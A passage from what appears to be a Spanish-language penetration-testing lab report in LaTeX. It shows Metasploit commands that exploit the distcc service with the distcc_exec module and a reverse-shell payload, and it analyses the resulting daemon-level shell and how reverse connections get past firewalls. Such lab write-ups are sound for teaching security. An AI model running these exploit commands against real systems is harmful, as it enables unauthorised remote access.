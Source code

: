 \subsection{Búsqueda, configuración y ejecución del exploit}

Se accedió a la consola de Metasploit desde el menú \texttt{APLICACIONES/08-Herramientas de Explotación/Metasploit framework} y, estando en la consola, se buscó el exploit disponible para el servicio distcc, se cargó el módulo, se configuró la carga y el objetivo, y se ejecutó el ataque:

\begin{lstlisting}
msf > search distcc
msf > use exploit/unix/misc/distcc_exec
msf exploit (unix/misc/distcc_exec) > set payload cmd/unix/reverse
msf exploit (unix/misc/distcc_exec) > set rhosts 10.38.90.255
msf exploit (unix/misc/distcc_exec) > exploit
\end{lstlisting}


\begin{analisis}
La búsqueda \texttt{search distcc} devolvió un único módulo, \texttt{exploit/unix/misc/distcc\_exec}, con rango \texttt{excellent} y la marca \texttt{Check: Yes}, lo que indica un exploit de máxima fiabilidad que además puede comprobar la vulnerabilidad antes de lanzarla, correspondiente exactamente al servicio identificado en el escaneo. Al cargar el módulo, Metasploit tomó por defecto la carga  (\texttt{cmd/unix/reverse}) y solo hizo falta fijar el objetivo con \texttt{set rhosts 10.38.90.255}, pues el \texttt{LHOST} lo resolvió solo con la IP de la máquina atacante. Al ejecutar \texttt{exploit}, la consola levantó el manejador (\texttt{Started reverse TCP double handler on 10.38.90.218:4444}), aceptó las conexiones del servidor comprometido y abrió la sesión (\texttt{Command shell session 1 opened (10.38.90.218:4444 -> 10.38.90.255:45184)}); resulta clave que la conexión la inicia el \textbf{propio servidor hacia el atacante} (shell reversa), de modo que se evaden las reglas de entrada de un cortafuegos, que normalmente sí bloquearía una conexión entrante pero no una saliente. Finalmente, el \texttt{whoami} devolvió \texttt{daemon}: la sesión se obtuvo con la cuenta de servicio sin privilegios bajo la que corre distccd, dato que resulta determinante para la comparación con la explotación de VSFTPD de la sección siguiente.
\end{analisis}

